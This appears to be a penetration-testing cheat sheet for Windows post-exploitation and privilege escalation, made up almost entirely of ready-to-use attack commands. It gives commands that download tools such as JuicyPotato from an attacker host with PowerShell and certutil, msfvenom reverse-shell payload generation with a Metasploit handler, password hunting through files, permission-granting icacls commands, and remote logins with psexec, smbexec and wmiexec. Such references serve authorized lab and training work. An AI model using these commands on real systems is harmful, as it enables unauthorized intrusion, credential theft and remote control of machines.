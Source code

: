 # Downloading Files
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.41:8000/JuicyPotato.exe','C:/Users/kohsuke/Desktop/JuicyPotato.exe')"

certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe

nc

curl

wget

scp
```

# Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

```
# Manual Windows Reverse Shell
```
python3 -m http.server

#to get reverse shell from your kali
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 

cd C:\Windows\Temp
certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe
```
# Metasploit Windows suggester
```
background

use post/multi/recon/local_exploit_suggester

run SESSION=1
```


# Windows System Enumeration 
```
systeminfo

#32bit ? 64bit ? 68bit ?
wmic os get osarchitecture

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

# Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#Check route table
route print

#Check open ports
netstat -ano
```

# Windows Password Hunting
```
#find 'password' in current directory with extension of txt,ini and config
findstr /si password *.txt *.ini *.config

#find 'password' in whole C: directory
dir /s C:\* | findstr /i "password"
```

# AV Enumeration
```
#Check Window Defender is up or down
sc query windefend

#Check running services
sc queryx type= service

#Check FireWall Status
netsh advfirewall firewall dump
netsh firewall show state 

#Check FireWall configuration
netsh firewall show config
```

# Read Permissions
```
#possible if user is also admin
icacls C:\Users\Administrator\Desktop\root.txt /grant username:F

icacls C:\Windows\System32\net.exe /grant username:username:F

"F" for Full control, "M" for Modify, "R" for Read, "W" for Write, "X" for Execute

```
# Finding exe files
```
where /R c:\windows bash.exe
where /R c:\windows wsl.exe
```

# Login methods
```
 psexec.py administrator:'password'@MACHINE_IP
 
 smbexec.py administrator:'password'@MACHINE_IP
 
 wmiexec.py administrator:'password'@MACHINE_IP
```

# References

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

https://github.com/SecWiki/windows-kernel-exploits

